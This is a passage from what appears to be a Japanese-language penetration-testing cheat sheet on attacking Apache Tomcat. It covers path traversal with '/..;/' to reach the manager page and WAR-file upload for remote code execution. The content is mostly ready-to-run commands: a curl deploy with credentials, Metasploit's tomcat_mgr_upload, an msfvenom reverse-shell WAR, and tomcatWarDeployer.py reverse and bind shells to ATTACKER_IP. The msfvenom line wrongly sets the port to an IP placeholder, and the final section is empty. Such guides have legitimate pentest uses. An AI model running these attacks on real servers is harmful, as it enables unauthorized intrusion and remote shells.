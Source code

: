 一部の[**脆弱なTomcatの構成**](https://www.acunetix.com/vulnerabilities/web/tomcat-path-traversal-via-reverse-proxy-mapping/)では、次のパスを使用してTomcatの保護されたディレクトリにアクセスできます: `/..;/`

したがって、例えば、次のようにして**Tomcatマネージャー**ページにアクセスできるかもしれません: `www.vulnerable.com/lalala/..;/manager/html`

**別の方法**として、このトリックを使用して保護されたパスをバイパスするには、`http://www.vulnerable.com/;param=value/manager/html`にアクセスします。

## RCE

最後に、Tomcat Web Application Managerにアクセスできる場合、**.warファイルをアップロードしてデプロイすることができます（コードを実行）**。

### Limitations

**十分な権限**（役割: **admin**, **manager**, **manager-script**）がある場合にのみWARをデプロイできます。これらの詳細は通常、`/usr/share/tomcat9/etc/tomcat-users.xml`に定義されている_tomcat-users.xml_の下にあります（バージョンによって異なります）（[POST](tomcat.md#post)セクションを参照）。
```bash
# tomcat6-admin (debian) or tomcat6-admin-webapps (rhel) has to be installed

# deploy under "path" context path
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

# undeploy
curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```
### Metasploit
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```
### MSFVenom リバースシェル

1. デプロイするための war を作成する:
```bash
msfvenom -p java/shell_reverse_tcp LHOST=<LHOST_IP> LPORT=<LHOST_IP> -f war -o revshell.war
```
2. `revshell.war`ファイルをアップロードし、それにアクセスします（`/revshell/`）：

### [tomcatWarDeployer.py](https://github.com/mgeeky/tomcatWarDeployer)を使用したバインドおよびリバースシェル

いくつかのシナリオでは、これが機能しないことがあります（例えば、古いバージョンのsun）。

#### ダウンロード
```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
#### リバースシェル
```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
#### バインドシェル
```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```
### [Culsterd](https://github.com/hatRiot/clusterd)の使用
```bash
```